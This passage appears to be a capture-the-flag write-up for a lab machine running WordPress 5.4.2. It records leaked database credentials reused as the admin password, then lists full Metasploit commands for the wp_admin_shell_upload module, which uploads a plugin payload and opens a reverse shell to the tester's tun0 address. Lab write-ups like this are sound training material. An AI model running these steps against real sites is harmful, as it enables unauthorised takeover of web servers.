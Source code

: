 DB creds:

devtest:devteam01

trying default wp creds, trying found user administrator with found db password devteam01

![](spectra5.png)

### Findings:Looking for attack vectors

The website runs on Wordpress v5.4.2 with credentials administrator:devteam01. 
Look for WP exploit/s CVE to RCE.


## Foothold:

This module takes an administrator username and password, logs into the admin panel, and uploads a payload packaged as a WordPress plugin. Becuase this is authenticated code execution by design, it should work on all versions of WordPress.

[Exploit Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/wp_admin_shell_upload.rb)

Metasploit
```
$ msfconsole
```

```
search wp-admin-shell
use exploit/unix/webapp/wp_admin_shell_upload
set USERNAME administrator
set PASSWORD devteam01
set TARGETURI /main
set RHOSTS 10.10.10.233
set LHOST tun0
run
```

